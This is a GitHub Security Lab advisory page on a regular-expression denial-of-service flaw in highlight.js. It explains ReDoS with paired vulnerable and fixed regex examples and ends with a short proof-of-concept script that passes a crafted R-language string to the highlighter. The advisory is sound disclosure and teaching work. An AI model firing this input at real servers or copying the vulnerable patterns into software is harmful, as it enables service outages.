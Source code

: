 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">January 12, 2021</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-306: Regular Expression Denial of Service in highlight.js</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/ghsecuritylab">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/61799930?s=35" height="35" width="35">
        <span>GitHub Security Lab</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>
<ul>
  <li>11/29/2020: report sent to security@highlightjs.org</li>
  <li>12/03/2020: fix gets published</li>
</ul>

<h2 id="summary">Summary</h2>

<p>The project contains one or more regular expressions that are vulnerable to <a href="https://en.wikipedia.org/wiki/ReDoS">ReDoS</a> (Regular Expression Denial of Service)</p>

<h2 id="product">Product</h2>

<p>highlight.js</p>

<h2 id="tested-version">Tested Version</h2>

<p>Latest commit at the time of reporting (November 30, 2020).</p>

<h2 id="details">Details</h2>

<h3 id="redos">ReDoS</h3>

<p>ReDoS, or Regular Expression Denial of Service, is a vulnerability affecting poorly constructed and potentially inefficient regular expressions which can make them perform extremely badly given a creatively constructed input string.</p>

<p>For the specific regular expression reported, it is possible to force it to work with an <code class="language-plaintext highlighter-rouge">O(2^n)</code> runtime performance when there is <a href="http://en.wikipedia.org/wiki/ReDoS#Exponential_backtracking">exponential backtracking</a>.</p>

<p>ReDoS can be caused by ambiguity or overlapping between some regex clauses. These badly performing regular expressions can become a security issue if a user can control the input. For example if the project is an input validation library, then the project could be used by a server to validate untrusted user input. There is no one size fits all when it comes to fixing ReDoS. But in general it is about removing ambiguity/overlap inside the regular expression.</p>

<p>Before showing the vulnerable regex, it may be helpful to show some examples of regular expressions vulnerable to ReDoS and how to fix them. If you are familiar with this vulnerability and how to fix it, please skip this section.</p>

<hr />

<pre><code class="language-JavaScript">var reg = /&lt;!--(.|\s)*?--&gt;/g;
</code></pre>

<p>The above regular expression matches the start of an HTML comment, followed by any characters, followed by the end of a HTML comment.
The dot in the regular expression (<code class="language-plaintext highlighter-rouge">.</code>) matches any char except newlines, and <code class="language-plaintext highlighter-rouge">\s</code> matches any whitespace.
Both <code class="language-plaintext highlighter-rouge">.</code> and <code class="language-plaintext highlighter-rouge">\s</code> matches whitespace such as the space character.
There are therefore many possible ways for this regular expression to match a sequence of spaces.
This becomes a problem if the input is a string that starts with <code class="language-plaintext highlighter-rouge">&lt;!--</code> followed by a long sequence of spaces, because the regular expression evaluator will try every possible way of matching the spaces 
(see this debugging session for an example: https://regex101.com/r/XvYgkN/1/debugger).</p>

<p>The fix is to remove the ambiguity, which can be done by changing the regular expression to the below, where there is no overlap between the different elements of the regular expression.</p>

<pre><code class="language-JavaScript">var reg = /&lt;!--(.|\r|\n)*?--&gt;/g;
</code></pre>

<hr />

<pre><code class="language-JavaScript">var reg = /(\w+_?)+_(\d+)/;
</code></pre>

<p>The above matches a snake_case identifier that ends with some digits.
However, for a string starting with lots of letters, there many ways for the regular expression to match those letters, due to the regex having a repetition matching letters (<code class="language-plaintext highlighter-rouge">w+</code>) inside another repetition that can match letters (<code class="language-plaintext highlighter-rouge">(\w+_?)+</code>).
The regular expression evaluator will try every possible grouping of letters into smaller groups of letters (see this debugging session for an example: https://regex101.com/r/fmci1j/1/debugger).
The fix is again to remove ambiguity, by changing the inner repetition to match groups of letters that must end with an underscore.</p>

<pre><code class="language-JavaScript">var reg = /(\w+_)+(\d+)/;
</code></pre>

<hr />

<p>Often the regular expressions are not as simple as the examples above.
Like the below regular expression <a href="https://github.com/microsoft/vscode/pull/109964/files">that used to be part of VS Code</a>.
(the top regular expression is the vulnerable, the bottom is the fixed)</p>

<pre><code class="language-JavaScript">var linkPattern = /(\[((!\[[^\]]*?\]\(\s*)([^\s\(\)]+?)\s*\)\]|(?:\\\]|[^\]])*\])\(\s*)(([^\s\(\)]|\(\S*?\))+)\s*(".*?")?\)/g;
var linkPattern = /(\[((!\[[^\]]*?\]\(\s*)([^\s\(\)]+?)\s*\)\]|(?:\\\]|[^\]])*\])\(\s*)(([^\s\(\)]|\([^\s\(\)]*?\))+)\s*(".*?")?\)/g;
</code></pre>

<p>But this example is actually very similar to the first example.
A section of the regular expression that was too general (<code class="language-plaintext highlighter-rouge">\S</code>) was changed to something a bit more specific (<code class="language-plaintext highlighter-rouge">[^\s\(\)]</code>) to remove overlap with another part of the regular expression.</p>

<hr />

<h3 id="vulnerability">Vulnerability</h3>

<p><code class="language-plaintext highlighter-rouge">highlight.js</code> is a code highlighting tool which can be used both client-side and server-side.</p>

<p>This vulnerability was found using a <a href="https://securitylab.github.com/tools/codeql/">CodeQL</a> query which identified the <code class="language-plaintext highlighter-rouge">begin</code> regular expression as vulnerable.
<a href="https://lgtm.com/query/4279830308275861872/">Link to query run</a></p>

<h3 id="poc">PoC</h3>

<p>The below PoC demonstrates how creatively constructed program written in the <code class="language-plaintext highlighter-rouge">r</code> programming language can take an extremely long time to parse:</p>

<ul>
  <li>Install highlight.js: <code class="language-plaintext highlighter-rouge">npm install highlight.js</code></li>
  <li>Put the below in a <code class="language-plaintext highlighter-rouge">.js</code> file and run with node.</li>
</ul>

<pre><code class="language-JavaScript">var hljs = require('highlight.js/lib/core');
var r = require('highlight.js/lib/languages/r');
hljs.registerLanguage('r', r);

const highlightedCode = hljs.highlight('r', "#' @param \`x\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\\_\ \code{numeric} foobar").value
</code></pre>

<h3 id="impact">Impact</h3>

<p>This issue may lead to a denial of service.</p>

<h2 id="resources">Resources</h2>
<ul>
  <li><a href="https://github.com/highlightjs/highlight.js/security/advisories/GHSA-7wwv-vh3v-89cq">GitHub Security Advisory</a></li>
</ul>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GitHub team member <a href="https://github.com/erik-krogh">@erik-krogh (Erik Krogh Kristensen)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-306</code> in any communication regarding this issue.</p>

    